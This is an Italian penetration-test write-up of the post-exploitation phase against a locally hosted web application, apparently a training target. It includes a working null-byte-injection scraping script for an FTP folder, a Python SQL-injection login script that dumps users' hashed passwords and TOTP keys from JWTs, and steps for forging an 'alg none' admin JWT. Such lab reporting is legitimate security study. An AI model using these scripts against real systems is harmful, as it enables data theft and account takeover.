



# 1. Data exfiltration
## Introduzione
La data exfiltration è il processo mediante il quale un attaccante riesce a sottrarre informazioni sensibili da un sistema informatico senza autorizzazione. Diversamente dalla semplice compromissione di un sistema, l'esfiltrazione comporta l'estrazione attiva di dati — spesso in modo furtivo, evitando di essere rilevata dai sistemi di sicurezza.

## Data exfiltration dei file nella cartella FTP
Come scoperto tramite information gathering e vulnerability assessment, la cartella FTP rimane liberamente accessibile nonostante sia una cartella che contenga dei file privati ed è possibile ottenere l'accesso ai dati tramite il Poison Null Byte, come è stato confermato nella fase di exploitation.

A questo punto è possibilee effettuare data exfiltration e scaricare sul proprio dispositivo personale tutti i file riservati contenuti all'interno della cartella FTP. Si cerca di automatizzare l'intero processo di exfiltration.

### Procedimento
1. Creare un file denominato scraping.sh che contiene il seguente codice:
```sh
#!/bin/bash

# URL e cartella in cui verranno scaricati i file
BASE_URL="http://127.0.0.1:3000/ftp"
DEST_DIR="ftp_downloads"

# Crea la cartella di destinazione
mkdir -p "$DEST_DIR"

# FILE_LIST conterrà tutti i link presenti nella directory FTP
# Legge il file HTML di FTP e si salva tutti i link href, ovvero i file presenti all'intenro della pagina, situati al suo interno
FILE_LIST=$(curl -s "$BASE_URL/" | grep -oP '(?<=href=")[^"]+')

# Per ognuno dei file trovati
for file in $FILE_LIST; do
    # Escludi la directory corrente o link "vuoti"
    if [[ "$file" == "." || -z "$file" ]]; then
        continue
    fi

    # Controlla se il file termina con .md o .pdf
    if [[ "$file" =~ \.md$ || "$file" =~ \.pdf$ ]]; then
        DOWNLOAD_NAME="$file"
    else
    # Se non termina con .md o pdf, esegui un attacco tramite Null Byte Injection
        DOWNLOAD_NAME="${file}%2500.md"
    fi

    echo "Dowloading $file"
    
    # Scarica e salva il file
    curl -s -o "$DEST_DIR/$file" "$BASE_URL/$DOWNLOAD_NAME"
done

echo "Scraping completed."
```

2. Aprire la bash e spostarsi nella cartella in cui è presente il file appena creato.
3. Eseguire lo script usando il comando:
```sh
bash scraping.sh
```
4. I file scaricati saranno situati dentro la sottocartella `ftp_downloads`.

### Prova del post-exploitation


## Data exfiltration degli utenti
A partire da information gathering si è scoperto che la funzione di Login potrebbe essere soggetta ad injection in quanto è usato per comunicare con il server per estrapolare dei dati da un DB SQL.

Successivamente da un analisi approfondità, nella fase di VA, si è scoperto che potrebbe essere effettivamente debole all'SQL Injection. 

Infine nella fase di penetration, è stato creato un query malevola al fine di ottenere i dati di accesso agli account senza conoscerne i dati di autenticazione.

Una seconda successiva analisi ha rivelato che durante la fase di login, il server manda al client un token contenente diversi dati usati per identificare l'utente tra cui: id, email, password hashata, ruolo, totp key e ip. Tutti dati personali dell'utente che permettono di fare user enumerations e avere potenzialmente accesso a dati sensibili degli utenti stessi.

Conoscendo queste informazioni, è stato creato un file python in grado di eseguire il dumping di tutto il database contenente i dati utenti sfruttando l'SQL Injection sul login.

### Procedimento
1. Creare un file python `SQL_injection.py` contenente il seguente codice:
``` python
import requests
import base64
import json

url = "http://127.0.0.1:3000/rest/user/login"
headers = {"Content-Type": "application/json"}

output_file = "users.txt"

# SQL malevolo basandosi sugli user Id
def check_user(id_number):
    payload = {"email": f"' OR id = '{id_number}' --", "password": "none"}
    response = requests.post(url, json=payload, headers=headers)
    return response

# converte il token da base64 -> bytes -> utf-8
def base64url_decode(input_str):
    padding = '=' * (-len(input_str) % 4)
    return base64.urlsafe_b64decode(input_str + padding).decode("utf-8")

# Apre o crea un file in cui inserire i dati degli utenti
with open(output_file, "w") as file:
    # Esegue un richiesta per ogni user id a partire da 0 fino ad un valore limite predefinito (30 in questo caso)
    for i in range(0, 30):

        # Fa una richiesta API di tipo POST
        res = check_user(i)

        # Legge la risposta
        try:
            json_file = res.json()

            # Ottiene il token dalla risposta JSON e la spezza in parti
            token = json_file["authentication"]["token"] 
            token_split = token.split('.')

            # Estrapola i dati utenti dal token
            payload_b64 = token_split[1]            
            payload = base64url_decode(payload_b64)
            payload_json = json.loads(payload)
            
            print(f"Found user: {payload_json['data']['email']}")
        except:
            print("ID not found.")
            continue
           
        # Salva i dati utenti dentro un file
        file.write(payload + "\n")
```
2. Eseguire il file python usando il comando:
``` sh
python SQL_Injection.py
```
3. Tutti i dati degli utenti vengono salvati dentro il file `users.txt`.
4. A partire dal file `users.txt` è possibile ottenere i dati come `email`, `password` (possibile fare attacchi brute-force o rainbow-table), `ruolo` (quindi sfruttare account con privilegi superiori) e `totp key` (per bypassare 2FA).

### Prova del post-exploitation



# 2. Information gathering internamente al sistema compromessoo (Pillaging)
## Introduzione
Pillaging è un termine molto usato in ambito penetration testing per indicare la raccolta sistematica di informazioni sensibili dopo aver compromesso un sistema.

## Package.json
Dopo essere entrato in possesso dei file contenuti dentro la cartella FTP, si è andati alla ricerca di qualsiasi informazioni che possa essere usato per ottenere informazioni e identificare ulteriori punti d'attacco dell'applicazione.

In particolare, un file che salta all'occhio è `package.json` che rappresenta un file contente informazioni creati dal software `npm` usato per gestire `node.js`. All'interno di questo file sono contenute tutte le librerie e dipendenze usate da Node per gestire il server stesso. Si procede all'analisi delle librerie per scovare dipendenze vulnerabili.

### Prodedimento
1. Si apre il file per un analisi manuale del file e trovare che esiste la sezione dipendenze.


2. Si utilizza il comando:
```sh
npm audit --package.json > audit-report.txt
```
Per creare un report di eventuali dipendenze vulnerabili.

3. Il report, in questo caso, ha trovato 172 vulnerabilità di cui: 

    * 6 vulnerabilità di bassa gravità
    * 53 vulnerabilità di media gravità
    * 71 vulnerabilità di alta gravità
    * 42 vulnerabilità critiche

### Prova del post-exploitation



# 3. Privilege escalation
## Introduzione
La privilege escalation è una tecnica usata da un attaccante per ottenere più privilegi di quelli inizialmente concessi su un sistema. Per esempio, un utente con accesso limitato riesce a compiere azioni riservate ad amministratori o ad altri utenti.

## Privilegi da admin tramite manipolazione del JWT
Dopo aver ottenuto informazioni e scoperto che il JWT è vulnerabile alla manipolazione, la fase di exploitation ha dimostrato che è possibile modificare il JWT token per poter impersonare un altro utente. Questa vulnerabilità è altamente importante in quanto c'è la possibilità, per un utente normale (customer) di impersonare e ottenere i poteri e i privilegi di un admin.

### Procedimento
1. Intercettare il token JWT durante una qualsiasi richiesta al server.
2. Deserializzare il token JTW da base64 a testo in utf-8. 
3. Modificare le l'algoritmo a None e modificare il ruolo ad admin.

### Prova del post-exploitation

